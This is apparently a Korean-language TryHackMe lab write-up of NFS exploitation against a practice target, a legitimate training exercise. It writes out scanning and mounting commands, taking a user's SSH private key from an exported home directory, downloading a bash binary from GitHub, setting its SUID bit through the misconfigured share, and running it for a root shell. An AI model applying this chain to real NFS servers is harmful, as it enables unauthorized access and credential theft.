 # TryHackMe - Network Services 2 (NFS)

> 본 실습은 TryHackMe 플랫폼의 Network Services 2 실습 중 NFS(Network File System)를 대상으로 하여 정보 수집, 취약점 분석, SSH 접근, 권한 상승 과정을 수행한 결과입니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.155.201`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `showmount`: NFS 공유 디렉토리 확인
  - `mount`: NFS 공유 디렉토리 마운트
  - `chmod`: 파일 권한 설정
  - `wget`: bash 바이너리 다운로드
  - `ssh`: 시스템 로그인 및 루트 권한 획득

---

## 2. 정보 수집

### 2.1 nmap 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.155.201 -oN nmap_scan.txt
```

- 결과 요약:

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | ssh | SSH 서비스 (OpenSSH 7.6p1) |
| 111/tcp | rpcbind | RPC 서비스 |
| 2049/tcp | nfs_acl | NFS 파일 공유 서비스 |
| 34721/tcp, 48035/tcp, 57911/tcp | mountd | NFS 마운트 관련 데몬 |
| 32923/tcp | nlockmgr | 파일 잠금 서비스 |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

![nmap 포트 스캔 grep 결과](./screenshots/nmap_scan_grep.png)

---

## 3. 실습 과정

### 3.1 showmount를 통한 공유 디렉토리 확인

- 설명: NFS 서비스가 어떤 디렉토리를 외부에 공유하고 있는지 확인하기 위해 사용했습니다.
```bash 
showmount -e 10.10.155.201
```

![NFS 공유 디렉토리 확인](.screenshots/showmount_exports.png)

---

### 3.2 NFS 공유 디렉토리 마운트

- 설명: NFS 공유 디렉토리를 로컬 시스템의 /tmp/mount 경로에 마운트하여 내부 파일을 열람할 수 있도록 했습니다. -nolock은 잠금 기능을 비활성화하여 호환성을 높입니다.
```bash
mkdir /tmp/mount
mount -t nfs 10.10.155.201:/home /tmp/mount -nolock
```

![NFS 디렉토리 마운트](./screenshots/mount_shared_directory.png)

---

### 3.3 NFS 공유 디렉토리에서 SSH 개인 키 획득

- 공유 디렉토리 내 `/home/cappucino/.ssh/id_rsa` 발견

- 개인 키 내용: [id_rsa.txt](./id_rsa.txt) 파일 참조

![SSH 개인 키 파일 발견](./screenshots/found_ssh_key.png)

---

### 3.4 SSH 접속

- 설명: 마운트된 NFS 디렉토리에서 획득한 개인 키(id_rsa)를 이용해 타깃 머신에 SSH로 접속하였습니다. chmod 600은 키 파일 권한을 설정해 SSH 클라이언트에서 거부되지 않도록 합니다.
```bash
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.155.201
```

![SSH 로그인 성공](./screenshots/ssh_login_success.png)

---

### 3.5 Kali 터미널에서 루트 쉘을 위한 바이너리 준비

- 설명: 타겟 머신과 동일한 환경에서 동작하는 bash 바이너리를 다운로드하여 업로드할 준비를 했습니다. 이후 SUID 권한을 부여하여 루트 쉘을 획득하기 위한 전처리 단계입니다.
```bash
wget https://raw.githubusercontent.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

![bash 바이너리 다운로드](./screenshots/download_bash_binary.png)

---

### 3.6 공유 디렉토리에 bash 복사 후 SUID 권한 부여

- 설명: 공유된 디렉토리에 bash 파일을 복사한 뒤, chmod +x로 실행 권한을 준 후, chmod +s로 SUID 비트를 설정하여 해당 파일을 실행할 때 소유자(root)의 권한으로 실행되도록 구성했습니다.
```bash
cp bash /tmp/mount/bash
cd /tmp/mount
chmod +s bash
chmod +x bash
```

![SUID bash 설정](./screenshots/set_suid_bash.png)

---

### 3.7 SSH 쉘에서 bash 실행 → 루트 권한 획득

- 설명: SUID가 설정된 bash 바이너리를 실행하면서 -p 옵션을 주어 현재 파일 소유자의 권한(root)으로 쉘을 실행했습니다. 이를 통해 루트 권한 획득에 성공했습니다.
```bash
cd /home
./bash -p
```

- 획득한 플래그: THM{nfs_got_pwned}

![bash 실행 및 루트 획득](./screenshots/execute_suid_bash.png)

---

## 4. 배운 점

- NFS 서비스는 잘못 설정될 경우, 외부 사용자에게 심각한 권한을 부여할 수 있다.
- `root_squash` 설정이 비활성화된 경우, 업로드한 파일에 root 권한을 부여할 수 있다.
- NFS 공유된 디렉토리 접근을 통해 `ssh` 키를 획득 후 타겟 사용자로 로그인할 수 있다.
- SUID 비트가 설정된 bash 파일을 실행하여 root 권한 획득이 가능하다.



